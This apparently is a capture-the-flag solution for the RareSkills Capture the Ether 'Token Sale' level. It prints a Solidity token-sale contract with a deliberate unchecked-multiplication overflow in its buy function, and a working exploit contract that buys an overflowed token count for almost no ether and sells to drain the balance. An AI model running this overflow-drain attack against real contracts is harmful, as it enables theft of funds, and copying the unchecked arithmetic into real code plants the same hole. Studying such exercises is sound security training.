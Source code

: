 ## Capture the Ether Foundry (RareSkills): Token Sale
Link: https://github.com/RareSkills/capture-the-ether-foundry/tree/master/TokenSale

### Contracts
- `src/Week8-9/`
```
contract TokenSale {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    constructor() payable {
        require(msg.value == 1 ether, "Requires 1 ether to deploy contract");
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable returns (uint256) {
        uint256 total = 0;
        unchecked {
            total += numTokens * PRICE_PER_TOKEN;
        }
        require(msg.value == total);

        balanceOf[msg.sender] += numTokens;
        return (total);
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] >= numTokens);

        balanceOf[msg.sender] -= numTokens;
        (bool ok,) = msg.sender.call{value: (numTokens * PRICE_PER_TOKEN)}("");
        require(ok, "Transfer to msg.sender failed");
    }
}

// Write your exploit contract below
contract ExploitContract {
    TokenSale public tokenSale;

    constructor(TokenSale _tokenSale) {
        tokenSale = _tokenSale;
    }

    receive() external payable {}

    function exploit() public {
        uint256 numToCauseOverflow = (type(uint256).max / 10 ** 18) + 1;
        uint256 payableAmount;
        unchecked {
            payableAmount = numToCauseOverflow * 10 ** 18;
        }

        tokenSale.buy{value: payableAmount}(numToCauseOverflow);
        tokenSale.sell(1);
    }
}
```
- `src/Week8-9/`
```
contract TokenSaleTest is Test {
```